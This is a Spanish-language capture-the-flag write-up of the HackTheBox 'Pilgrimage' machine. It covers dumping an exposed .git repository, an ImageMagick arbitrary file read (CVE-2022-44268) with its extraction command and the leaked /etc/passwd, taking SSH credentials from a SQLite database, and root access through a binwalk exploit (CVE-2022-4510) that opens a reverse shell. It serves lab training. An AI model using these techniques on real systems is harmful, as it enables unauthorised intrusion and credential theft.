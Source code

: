 --------
- Tags: #binwalk #sqlite3 #image-magick #git_dumper #Arbitrary-File-Read #CVE-2022-4510 #seasson2 
--------------
## Técnicas utilizadas
- .Git abuse[git_dumper.py]
- Arbitrary File Read[imagemagick]
- Database enumeration
- BinWalk abuse[CVE-2022-4510]
## Procedimiento

![[Pasted image 20230624121725.png]]

#### Reconocimiento

El escaneo con **nmap** nos presenta los siguientes puertos abiertos:
``` ruby
# nmap -sCV -p80,22 10.129.33.41 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-24 12:19 MST
Nmap scan report for 10.129.33.41
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.83 seconds
```

El reconocimiento con **WhatWeb** nos muestra las tecnologías que corren por detras del sitio web:
``` ruby
# whatweb pilgrimage.htb
http://pilgrimage.htb [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.129.33.41], JQuery, Script, Title[Pilgrimage - Shrink Your Images], nginx[1.18.0]
```

#### .Git abuse[git_dumper.py]
Enumernado la pagina, pude encontrar un **XSS** que no llevaba realmente a ningun sitio. Intente también tratando de subir una **webshell** pero tampoco funciono. Haciendo un escaneo más profundo con **wfuzz** di con el directorio **.git**

```
# curl -s -X GET "http://pilgrimage.htb/.git/HEAD"
ref: refs/heads/master
```

Como sabemos, cuando el directorio **.git** esta expuesto, podemos aprovecharnos para clonar el repositorio completo con herramientas como [git_dumper.py](https://github.com/arthaud/git-dumper/) de la siguiente manera:

```
# git_dumper.py http://<url>/ <dir>
```

--------
#### Arbitrary File Read[imagemagick]
Leyendo los archivos del repositorio no encontramos nada interesante, sin embargo, encontramos el binario de **ImageMagick** que esta utilizando para convertir las imagenes.
Si listamos la version de **ImageMagick** podemos ver que es algo antigua:
```
./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

Si buscamos por vulnerabilidades existentes con **searchsploit** para la versión en uso, encontramos que hay una para leer archivos de la maquina:
![[searchsploit_magick.png]]

La prueba de concepto nos pide que clonemos el [repositorio](https://github.com/voidz0r/CVE-2022-44268). Una vez clonado, tenemos que ejeecutar el sigueinte comando:
```
# cargo run "/etc/passwd"
```

Esto nos creara un **image.png**, este mismo es el que usaremos para leer el */etc/passwd* del servidor. Tenemos que subir la imagen y la pagina nos ofecera un **url**, usamos **wget** para descargar la imagen en el directorio actual de trabajo. Una vez con la imagen en nuestro espacio de trabajo, ejecutaremos el siguiente comando:
```
# identify -verbose 6497a141931ed.png | awk '/Raw profile type:/,/signature:/' | sed 's/signature.*//' | sed 's/Raw profile type.*//' | sed '/^\s*$/d' | sed '1d' | xxd -ps -r
```

Esto nos listara el */etc/passwd*:
```java
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

---------
#### Database enumeration
En el archivo **login.php** del repositorio hace alución a una ruta donde se encuentra una base de datos. Hacemos el proceso anterior pero ahora con el este archivo e intentamos enumerarla con **sqlite3**:
```
# sqlite3 db.db
```

Dentro de la base de datos, vemos que existe una **table** con nombre **users**. Si la listamos, podemos ver un usuario y una contraseña:
![[leak_users.png]]

Estas credenciales nos sirven para conectarnos a la maquina por **SSH**

---------
#### BinWalk abuse[CVE-2022-4510]
Una vez estamos como **emily** podemos hechar un vistazo a los procesos del sistema con *ps -faux* y nos mostrara el siguiente proceso que esta ejecutando **root**:
![[root_process.png]]
El script que esta ejecutando **root** en cuestion es el siguiente:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```

Basicamente, crea una **lista negra**, ejecuta **inotifywait** en bucle con los parametros *-m -e*, estos dos en conjunto sirven para  constantemente ver si se crean archivos en la ruta definida. Posteriormente se declara la función **filename** que toma como valor el nombre de los archivos a través de una expresion regular y antepone la palabra **CREATE**. Un ejemplo seria:
```
CREATE hola.sh
```

La parte interesante viene a continuación, ya que ejecuta **binwalk -e**, esto va a permitir aprovecharnos de una vulnerabilidad de la version actual de **binwalk**
Si buscamos por exploit para la versión actualmente en uso de **binwalk** encontramos un **RCE**:
![[binwalk_rce.png]]

El funcionamiento del script es facil, simplemente colocamos un archivo a modificar, colocamos nuestra **ip** y un puerto por donde estaremos en escucha y nos deja un archivo como este:
![[png_rce.png]]

Nos vamos poner en escucha por el puerto elegido. El archivo generado lo vamos a trasladar a la maquina victima y lo vamos a colocar en la carpeta */var/www/pilgrimage.htb/shrunk/*. Esto automaticamente nos mandara una **reverse shell** a nuestro equipo y podremos leer la flag de root:
![[root.png]]






